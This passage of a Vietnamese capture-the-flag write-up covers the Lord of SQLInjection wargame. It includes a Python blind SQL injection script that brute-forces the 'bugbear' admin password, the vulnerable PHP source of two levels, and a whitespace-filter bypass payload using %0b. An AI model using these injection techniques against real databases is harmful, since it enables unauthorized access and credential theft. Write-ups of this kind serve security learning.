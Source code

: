 ```python
import requests
import string

char = string.printable
url="https://los.rubiya.kr/chall/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php"
header = {'Cookie':'PHPSESSID=1k033ilrvrlrsps5aktrqc28hq'}
session = requests.Session()
pw = ''

for i in range(1,16):
    for c in char: 
        temp = pw + c
        param = f'pw=1&no=1||true%26%26id%09in("admin")%26%26left(pw,{i})%09IN("{temp}")--%09-'
        print(param)
        r = session.get(url = url , params = param , headers = header )
        if "Hello admin" in r.text:
            pw += c
            print(pw)
            break
```

## GIANT (space filter)

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(strlen($_GET[shit])>1) exit("No Hack ~_~"); 
  if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe"); 
  $query = "select 1234 from{$_GET[shit]}prob_giant where 1"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result[1234]) solve("giant"); 
  highlight_file(__FILE__); 
?>
```

Chúng ta có một số kí tự để thay thế khoảng trắng như: `%20`-> \`\` , `%0a`->, `%0d`->, `%09`-> nhưng hầu hết mấy kí tự này đều bị filter nhưng chúng ta có thể sử dụng `%0b` hoặc `%0c` để thay thế khoảng trắng

\=> /?shit=%0b

## Assassin

```parigp
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>hp
```
